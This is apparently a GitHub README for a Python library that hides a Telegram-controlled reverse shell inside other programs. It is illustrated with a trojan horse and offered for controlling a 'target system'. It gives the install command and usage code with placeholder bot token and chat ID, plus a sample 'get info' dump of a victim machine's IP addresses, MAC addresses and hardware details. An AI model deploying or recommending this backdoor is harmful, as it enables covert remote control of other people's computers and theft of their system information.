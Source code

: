  <p align="center">
<img src='./cover.png' style="border: white;border-radius: 2pc;" alt='trojan horse'/>
</p>

# py tel reverse shell 
![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54) ![Telegram](https://img.shields.io/badge/Telegram-2CA5E0?style=for-the-badge&logo=telegram&logoColor=white)
> the reverse shell in your telgram!

<br>

[![GitLicense](https://gitlicense.com/badge/TorhamDev/telegram-reverse-shell-lib)](https://gitlicense.com/license/TorhamDev/gitlicense)
## What is this?
This program is a Python library that you can use to put an inverted shell connected to Telegram in any program. And control the target system from within the telegram.

# How does it work?
## Install
```bash
pip install Telegram-reverse-shell-lib
```

## Use telegram reverse shell
```python 
# sample program
from py_tel_reverse_shell import tel_shell



## get token from @BotFather in telegram
my_token = "2018473XXXXXXXXXXXXXXXXXXXXX-3M"
## get your number id from @userinfobot in telegram
my_chat_id = "19XXXXX25"


tel_shell.start_shell(bot_token=my_token,chat_id=my_chat_id)
```
and over. You can easily put an inverted shell connected to Telegram in your program.

<br>

# options
*You can send these words to the robot to get the answer.*
```bash
get info #get full info from target
```
sample output:
```text
-------- Boot Time -----------
 Boot Time: 2021/9/20 13:56:22
 -------- system info -----------
 platform: Linux
 platform-release: 5.13.16-200.fc34.x86_64
 platform-version: 1 SMP Mon Sep 13 12:39:36 UTC 2021
 architecture: x86_64
 hostname: optimus
 ip-address: 192.168.1.36
 public IP address: 31.xxx.xxx.32
 -------- CPU info -----------
 processor: x86_64
 Physical cores: 2
 Total cores: 2
 Max Frequency: 3200.00Mhz
 Min Frequency: 800.00Mhz
 Current Frequency: 895.82Mhz
 Total CPU Usage: 23.4%
 -------- Memory info -----------
 Total: 7.66GB
 Available: 4.81GB
 Used: 2.09GB
 Percentage: 37.2%
 -------- SWAP info -----------
 Total: 14.66GB
 Free: 14.40GBUsed: 266.50MBPercentage: 1.8%
 -------- Network info -----------
=== Interface: lo ===
 IP Address: 127.0.0.1
 Netmask: 255.0.0.0
 Broadcast IP: None
=== Interface: lo ===
 MAC Address: 00:00:00:00:00:00
 Netmask: None
 Broadcast MAC: None
=== Interface: enp2s0 ===
 IP Address: 192.168.1.36
 Netmask: 255.255.255.0
 Broadcast IP: 192.168.1.255
=== Interface: enp2s0 ===
 MAC Address: 1c:xx:xx:xx:a2:c8
 Netmask: None
 Broadcast MAC: ff:ff:ff:ff:ff:ff
=== Interface: virbr0 ===
 IP Address: 192.168.122.1
 Netmask: 255.255.255.0
 Broadcast IP: 192.168.122.255
=== Interface: virbr0 ===
 MAC Address: 52:xx:xx:xx:6c:93
 Netmask: None
 Broadcast MAC: ff:ff:ff:ff:ff:ff
 Total Bytes Sent: 83.69MBTotal Bytes Received: 175.42MB
```